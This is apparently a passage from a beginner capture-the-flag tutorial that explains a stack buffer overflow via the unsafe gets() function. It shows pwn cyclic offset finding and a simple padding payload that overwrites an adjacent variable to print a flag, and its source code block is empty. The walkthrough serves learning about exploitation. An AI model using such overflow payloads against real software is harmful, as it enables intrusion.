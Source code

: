 ```c
```

If you look closely it has gets function, it didn't specify the buffer size, so we can overflow it.  
you can check the manual page of gets function with

```code
man gets
```

The manual page says:

```code
gets()  reads  a  line  from  stdin into the buffer pointed to by s until either a terminating newline or EOF,
which it replaces with a null byte ('\0').  No check for buffer overrun is performed
```

if we run the binary with `./example1` we will get

```code
hi! change the string to >w< and you'll get your flag!
your input:
```

you can try to brute force it by using `pwn cyclic` or `pattern create` in gef. for example:

```code
pwn cyclic 16
aaaabaaacaaadaaa
```

it will create cyclic pattern that can determine spesific offset. if we input it to the system we will get

```code
hi! change the string to >w< and you'll get your flag!
your input: aaaabaaacaaadaaa
string is: caaadaaa
not yet :(
keep trying!
```

if we examine carefully, we have overwritten the `string[8]` with our input. Because the size of `input` variable is 8 bytes, if we supply the gets with more than 8 character it will overflow. In this case it will overflowing `string[8]`.

so the input has to be 8\*`randomcharacter`+ >w<. Lets just A for the padding. so the payload will be

```code
AAAAAAAA>w<
```

supply the payload in the binary and we got the flag.

```code
flag `CTF{buffer_overflo0o0o0ow}`
```

## Overwrite return address
